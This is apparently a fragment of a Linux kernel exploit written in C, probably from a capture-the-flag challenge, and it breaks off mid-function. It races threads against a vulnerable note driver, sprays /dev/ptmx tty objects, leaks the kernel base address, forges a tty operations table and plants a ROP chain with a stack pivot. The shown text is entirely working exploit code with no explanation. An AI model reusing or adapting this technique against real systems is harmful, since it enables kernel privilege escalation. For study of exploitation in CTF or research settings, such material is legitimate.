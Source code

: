```c

    for (int i = 0; i < 0x10; i++)
        pthread_create( &edit_t , NULL , block_edit , (void *)(nums+i));

    sleep(1);

    for (int i = 0; i < 0x80; i++)
        tty_fd[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);

    for (int i = 0; i < 0x10; i++)
        pthread_create( &add_t , NULL , block_add , (void *)(nums+i));

    sleep(1);

    for (int i = 0; i < 0x10; i++){
        note_read(i , tty_buf);
        if ((int)tty_data[0] == 0x5401 ){
            tty_idx = i;
            break;
        }
    }

    if(tty_idx == -1) {
        error("Can not find tty");
        exit(-1);
    }

    fake_tty_op_idx = (tty_idx + 1)%0x10;
    rop_idx = (tty_idx + 2)%0x10;

    vmlinux_base = (tty_data[3] & 0xfffffffffffff000) - 0xe8e000;

    info("tty_idx" , tty_idx );
    info("fake_tty_op_idx" , fake_tty_op_idx );
    info("rop_idx" , rop_idx );
    info("vmlinux_base" , vmlinux_base );

    set_offset();

    edit(fake_tty_op_idx , 0x200 , buf);
    edit(rop_idx , 0x200 , rop);

    leak(buf);

    tty_addr = data[2*tty_idx];
    fake_tty_op_addr = data[2*fake_tty_op_idx];
    rop_addr = data[2*rop_idx];
    
    info("tty_addr" , tty_addr);
    info("fake_tty_op_addr" , fake_tty_op_addr);
    info("rop_addr" , rop_addr);

    tty_data[1] = pop_r12_pop_rbp_ret;
    tty_data[3] = fake_tty_op_addr;
    tty_data[4] = leave_ret;

    for (int i = 0; i < 0x20; i++)
        data[i] = push_rdi_pop_rsp_pop_rbp_or_eax_edx_ret;

    data[0] = rop_addr;
    data[1] = leave_ret;

    int i = 0;
```